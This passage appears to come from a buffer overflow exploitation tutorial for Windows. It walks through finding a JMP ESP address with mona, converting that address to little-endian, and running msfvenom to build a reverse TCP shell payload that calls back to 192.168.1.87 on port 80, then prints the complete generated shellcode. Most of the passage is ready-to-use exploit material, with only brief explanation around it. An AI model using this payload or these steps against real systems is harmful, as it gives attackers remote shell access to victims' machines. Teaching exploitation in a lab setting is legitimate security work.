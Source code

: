 ```md
!mona jmp -r esp -cpb "\x00"
```

![](./images/jmp_search.PNG)

Let's take note of the "JMP ESP" in the red rectangle : 0x311712f3, we need to convert this address to little-endian format to use it in our code. Just invert the bytes to perform this conversion :

```md
0x311712f3 <-> "\xf3\x12\x17\x31"
```

#### Generate payload & prepend NOPs

We can now generate our shellcode excluding the characters found :

```md
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.87 LPORT=80 EXITFUNC=thread -b "\x00" -f c
```

LHOST and LPORT are equal to the IP address and port where the reverse shell will connect back.

The command generated the following :

```md
"\xdb\xd0\xbb\xac\x66\x48\xa0\xd9\x74\x24\xf4\x5e\x2b\xc9\xb1"
"\x52\x31\x5e\x17\x03\x5e\x17\x83\x42\x9a\xaa\x55\x66\x8b\xa9"
"\x96\x96\x4c\xce\x1f\x73\x7d\xce\x44\xf0\x2e\xfe\x0f\x54\xc3"
"\x75\x5d\x4c\x50\xfb\x4a\x63\xd1\xb6\xac\x4a\xe2\xeb\x8d\xcd"
"\x60\xf6\xc1\x2d\x58\x39\x14\x2c\x9d\x24\xd5\x7c\x76\x22\x48"
"\x90\xf3\x7e\x51\x1b\x4f\x6e\xd1\xf8\x18\x91\xf0\xaf\x13\xc8"
"\xd2\x4e\xf7\x60\x5b\x48\x14\x4c\x15\xe3\xee\x3a\xa4\x25\x3f"
"\xc2\x0b\x08\x8f\x31\x55\x4d\x28\xaa\x20\xa7\x4a\x57\x33\x7c"
"\x30\x83\xb6\x66\x92\x40\x60\x42\x22\x84\xf7\x01\x28\x61\x73"
"\x4d\x2d\x74\x50\xe6\x49\xfd\x57\x28\xd8\x45\x7c\xec\x80\x1e"
"\x1d\xb5\x6c\xf0\x22\xa5\xce\xad\x86\xae\xe3\xba\xba\xed\x6b"
"\x0e\xf7\x0d\x6c\x18\x80\x7e\x5e\x87\x3a\xe8\xd2\x40\xe5\xef"
"\x15\x7b\x51\x7f\xe8\x84\xa2\x56\x2f\xd0\xf2\xc0\x86\x59\x99"
"\x10\x26\x8c\x0e\x40\x88\x7f\xef\x30\x68\xd0\x87\x5a\x67\x0f"
"\xb7\x65\xad\x38\x52\x9c\x26\x87\x0b\x9f\xe1\x6f\x4e\x9f\x0d"
"\x20\xc7\x79\x67\xd0\x81\xd2\x10\x49\x88\xa8\x81\x96\x06\xd5"
"\x82\x1d\xa5\x2a\x4c\xd6\xc0\x38\x39\x16\x9f\x62\xec\x29\x35"
"\x0a\x72\xbb\xd2\xca\xfd\xa0\x4c\x9d\xaa\x17\x85\x4b\x47\x01"
"\x3f\x69\x9a\xd7\x78\x29\x41\x24\x86\xb0\x04\x10\xac\xa2\xd0"
"\x99\xe8\x96\x8c\xcf\xa6\x40\x6b\xa6\x08\x3a\x25\x15\xc3\xaa"
"\xb0\x55\xd4\xac\xbc\xb3\xa2\x50\x0c\x6a\xf3\x6f\xa1\xfa\xf3"
"\x08\xdf\x9a\xfc\xc3\x5b\xba\x1e\xc1\x91\x53\x87\x80\x1b\x3e"
"\x38\x7f\x5f\x47\xbb\x75\x20\xbc\xa3\xfc\x25\xf8\x63\xed\x57"
"\x91\x01\x11\xcb\x92\x03"
```
